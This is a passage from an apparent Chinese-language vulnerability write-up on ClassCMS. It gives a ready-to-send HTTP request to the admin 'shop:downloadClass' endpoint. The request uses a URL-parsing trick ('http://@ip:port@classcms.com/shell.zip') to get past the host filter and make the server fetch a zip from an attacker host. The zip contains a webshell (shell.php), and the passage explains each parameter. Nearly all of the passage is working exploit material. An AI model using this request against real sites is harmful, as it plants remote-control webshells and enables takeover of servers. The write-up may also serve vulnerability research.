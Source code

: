 ```
```

然后修改第二个请求包

```
//第二个数据包



POST /admin666?do=shop:downloadClass&amp;ajax=1 HTTP/1.1

Host: classcms

Content-Length: 85

Accept: application/json, text/javascript, */*; q=0.01

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Origin: http://192.168.159.1

Referer: http://192.168.159.1/ClassCMS/admin666?do=shop:index&amp;bread=%E5%BA%94%E7%94%A8%E5%BC%80%E5%8F%91&amp;action=detail&amp;classhash=classcreate

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Cookie: token_2ab421=5d012ca838cc5f0aff02c44c8e2c91e7; csrf_2ab421=338ceb00

Connection: close



classhash={dir}&amp;url=http://@{ip}:{port}@classcms.com/{shell.zip}&amp;csrf=b472e230
```

数据包参数解析

```
classhash为解压出来的最后文件名



url为了绕过过滤设成如下形式



http://@ip:80@classcms.com/shell.zip

远程ip端口（默认80也需要加上），一个包含木马文件（shell.php）的zip压缩包



csrf参数不动即可



发送之后返回:下载完成

```